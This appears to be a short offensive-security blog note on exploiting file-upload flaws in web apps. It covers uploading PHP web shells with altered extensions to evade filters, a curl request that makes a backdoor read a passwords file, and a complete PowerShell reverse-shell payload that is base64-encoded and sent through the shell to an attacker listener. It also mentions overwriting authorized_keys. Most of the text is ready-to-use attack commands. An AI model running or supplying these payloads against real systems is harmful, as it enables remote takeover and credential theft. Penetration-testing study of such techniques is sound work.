 ```yaml
---
layout: post
title: File Upload
titledate: 08/30/23
tags: ["infosec","offsec", "web", "exploit", "php"]
---
```


<h4>executable files</h4>

can we upload txt files instead of images?

how about a web shell

/usr/share/webshells

can try phps and php7 extensions or rand case pHP if upload is blocked

<h3>NOTE: when trying to upload shells.. use dir or pwd to get cwd to know where you are</h3>

    $ curl "http://vulnapp.com/home/uploads/simple-backdoor.pHp?cmd=type%20..\..\..\passwords.txt" 

how about a powershell reverse shell 

    $ pwsh

```powershell
PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.1.1",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```
```powershell
PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```
```powershell
PS> $EncodedText =[Convert]::ToBase64String($Bytes)
```
```powershell
PS> $EncodedText
```
    $ nc -nlvp 443

    $ curl http://192.168.1.200/home/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20BASE64

<h4>non-executable files</h4>

what if we can upload a file but there is no php or asp, and we can't execute the file?

one example of this non executable file upload vulnerabilitiy is overwriting a file like authorized_keys

in burp

![_config.yml]({{ site.baseurl }}/images/web/file_upload.png)

